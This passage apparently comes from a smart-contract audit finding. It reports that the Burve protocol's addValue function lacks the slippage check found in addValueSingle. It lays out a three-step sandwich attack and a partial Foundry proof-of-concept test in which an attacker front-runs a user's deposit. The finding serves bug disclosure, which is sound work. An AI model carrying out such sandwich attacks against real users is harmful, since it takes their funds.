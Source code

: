 ```solidity
        uint128 bgtValue,
        address token,
        uint128 maxRequired
    ) external nonReentrant returns (uint256 requiredBalance) {
        ...
        requiredBalance = AdjustorLib.toReal(token, nominalRequired, true);
        uint256 realTax = FullMath.mulDiv(
            requiredBalance,
            nominalTax,
            nominalRequired
        );
        if (maxRequired > 0)
125:        require(requiredBalance <= maxRequired, PastSlippageBounds());
        TransferHelper.safeTransferFrom(
            token,
            msg.sender,
            address(this),
            requiredBalance
        );
        ...
    }
```
As can be seen, the `addValueSingle` function includes a slippage check, and the `addValue` function lacks one.

### Internal pre-conditions
N/A

### External pre-conditions
N/A

### Attack Path
1. The attacker swaps token0 for token1.
2. The user calls the `addValue` function.
3. The attacker then swaps token1 back to token0.

Even if a sandwich attack is difficult on certain chains, if step 1 is executed before the user's deposits, the user may still incur a loss.

### PoC
The PoC below illustrates a scenario in which Bob steals funds by executing a sandwich attack on Alice's addValue function.
https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/test/facets/ValueFacet.t.sol
```solidity
    function test_SlippageAddValue() public {
        valueFacet.addValue(address(this), 0x7, 3e21, 0);
        
        uint256 oneX128 = 1 << 128;
        vm.prank(owner);
        simplexFacet.setClosureFees(0x7, uint128(oneX128 / 1000), 0);

        uint256[4] memory initBalances = getBalances(bob);
        
        uint256 swapAmount = 1e21;

        vm.prank(bob);
        (uint256 inAmount, uint256 outAmount) = swapFacet.swap(
            bob, // recipient
            tokens[0], // tokenIn
            tokens[1], // tokenOut
            int256(swapAmount), // positive for exact input
            0, // no price limit{}
            0x7
```